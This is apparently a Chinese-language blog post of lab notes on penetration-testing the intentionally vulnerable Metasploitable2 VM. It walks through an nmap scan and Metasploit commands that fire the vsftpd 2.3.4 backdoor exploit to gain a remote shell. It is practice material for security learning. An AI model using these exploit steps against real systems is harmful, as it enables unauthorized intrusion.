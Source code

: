 ```yaml
---
title: 【CTF】Metasploitable2 滲透測試實作(筆記)
date: 2022-11-23
tags:
  - ctf
---
```


## 先備知識

  * 知道如何使用 VMware 或 VirtualBox
  * Kali Linux 基本操作
  * 能夠讓 Kali 連線至 Metasploitable2 

## Metasploitable2

一種充滿漏洞的Linux系統，適合用於練習滲透測試。

可直接到 [Sourceforge](https://sourceforge.net/projects/metasploitable/) 上下載虛擬機檔。

## 偵查

1. 開啟 Metasploitable2，會先要求輸入帳號密碼，帳密都是 `msfadmin` (輸入密碼時不會顯示在螢幕上)。

2. 輸入 `ifconfig` 查看 IP 位址，假設為 `192.168.235.130`。

3. 打開 Kali Linux (IP為192.168.235.128)，終端輸入 `msfconsole` 進入 Metasploit。

![msfconsole](/images/metasploitable2/kali_linux_msfconsole.png)

4. 使用 nmap 掃描可以連的 port

```bash
msf6 > nmap -sV 192.168.235.130
```

![nmap](/images/metasploitable2/kali_linux_msf_nmap.png)

可以看到有一大堆 port 是開著的

## 滲透

1. 看看 vsftpd 有沒有洞，在 msf 中輸入 `search vsftpd`，可以看到有一個 exploit 可以使用

![search vsftpd](/images/metasploitable2/kali_linux_msf_vsftpd.png)

2. 使用這個 exploit，用 `show options` 可以看到這個 exploit 需要的參數，然後用 `set 參數 值` 設定一些參數。

```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.235.130
```

![use exploit](/images/metasploitable2/kali_linux_msf_exploit.png)

3. 設定 payload，即欲發送的惡意程式，我們使用 `payload/cmd/unix/interact`

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact
```

4. 輸入 `exploit` 開始攻擊

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

如果成功，可以試試 whoami、uname -a 之類的指令

![exploit](/images/metasploitable2/kali_linux_msf_exploit1.png)

---

Metasploitable2 還有很多其他的洞，之後有空來戳戳看或是玩 Metasploitable3。